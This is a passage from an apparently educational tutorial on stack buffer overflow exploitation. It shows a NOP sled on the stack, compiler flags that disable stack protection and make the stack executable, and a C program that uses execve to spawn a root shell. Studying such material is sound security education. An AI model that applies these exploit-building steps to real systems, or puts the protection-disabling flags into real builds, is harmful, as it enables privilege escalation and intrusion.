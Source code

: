 But when we try to execute the `nop` instruction on the *Stack* the program crashes with a *Segmentation fault*, the reason being that by default execution on the *Stack* is not allowed.
```assembly
(gdb) stepi
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe4a8 in ?? ()
```
We can explicitly allow execution on the *Stack* with the `-Wa,--exec` compiler option
```console
gcc -ggdb -fno-stack-protector -Wa,--exec -o overflow overflow.c
```
When we now run `overflow`in the debugger the *Segmentation fault* occurs at `0x7fffffffe4b0` where the first invalid instruction  is encountered after the execution of the eight `nop` instructions on the *Stack*.
```assembly
> gdb -n overflow
(gdb) run $STR
Starting program: /home/hacker/overflow $STR
&buf 0x00007fffffffe4a8 rbp 0x3837363534333231 rip 0x00007fffffffe4a8

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe4b0 in ?? ()
```
## The execve() Command <a name="section2"></a>

The `execve()` system call hands the current process together with its process ID and all access rights to the program called by `execve()`.

**C 2**: <a name="c2"></a> The C program [execve.c](execve.c) shown below hands over control of the current process to `/bin/sh`.
```C
 1 #include <stdio.h>
 2 #include <stdlib.h>
 3 #include <unistd.h>
 4
 5 int main(void)
 6 {
 7     char string[] = "/bin/sh";
 8     char *argv[2];
 9
10     argv[0] = string;
11     argv[1] = NULL;
12     execve(string, argv, NULL);
13     exit(0);
14 }
```
We compile `execve.c` with the command
```console
> gcc -o execve execve.c
```
and run `execve`
```console
> ./execve
#
```
We see that the process running the program has been taken over be a shell.
```console
# env
PWD=/home/hacker
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
>
```


[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/